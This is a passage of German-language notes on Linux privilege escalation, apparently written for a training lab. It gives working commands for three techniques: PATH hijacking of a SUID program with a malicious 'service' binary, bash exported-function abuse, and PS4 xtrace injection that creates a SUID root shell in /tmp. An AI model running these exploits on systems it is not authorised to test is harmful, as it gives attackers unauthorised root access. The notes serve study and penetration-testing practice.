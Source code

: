 <img src="C:\Users\dani\AppData\Roaming\Typora\typora-user-images\image-20200726151056932.png" alt="image-20200726151056932" style="zoom:80%;" />

Der Befehl `service` wird ohne absoluten Pfad ausgeführt und sucht daher in der PATH Variable nach Pfaden. Die PATH Variable kann vom Benutzer manipuliert werden, indem ein selbst gewähltes Verzeichnis an den Anfang der Variable gehängt wird. Um das aktuelle Verzeichnis vorne anzuhängen, kann folgender Befehl genutzt werden:

```bash
PATH=.:$PATH
```

Nun muss das Binary `service` erstellt werden:

```bash
#Programm service.c

int main() {
	setuid(0);
	system("/bin/bash -p");
}

#Kompilieren mit gcc -o service service.c
```

Zuletzt das Programm starten mit **/usr/local/bin/suid-env** - alternativer Weg (gleicher Output):

<img src="C:\Users\dani\AppData\Roaming\Typora\typora-user-images\image-20200726151546266.png" alt="image-20200726151546266" style="zoom:80%;" />

#### Abusing Shell Features (1)

Bash Versionen unter 4.2-048 erlaubt Bash Funktionen mit "/" im Namen, welche bevorzug ausgeführt werden. Wenn ein Programm (mit SUID) ein weiteres Programm aufruft - welches mit einem absoluten Pfad angegeben ist - kann mittels einer Funktion anderer "Code" ausgeführt werden. 

<img src="C:\Users\dani\AppData\Roaming\Typora\typora-user-images\image-20200726185301811.png" alt="image-20200726185301811" style="zoom: 80%;" />

Mit folgenden Befehlen kann nun eine Funktion als root User ausgeführt werden:

```bash
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
/usr/local/bin/suid-env2
```

#### Abusing Shell Features (2)

Bash Versionen unter 4.4 inkludieren im Debugging Mode die Environment Variable PS4, welche bei der Darstellung Kommandos ausführen kann. Gleiches Szenario wie bei Abusing Shell Features (1). Um eine rootbash zu erzeugen, wird folgender Befehl genutzt (startet eine Debugging Bash):

```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash)'
/tmp/rootbash -p
```

## Passwords & Keys
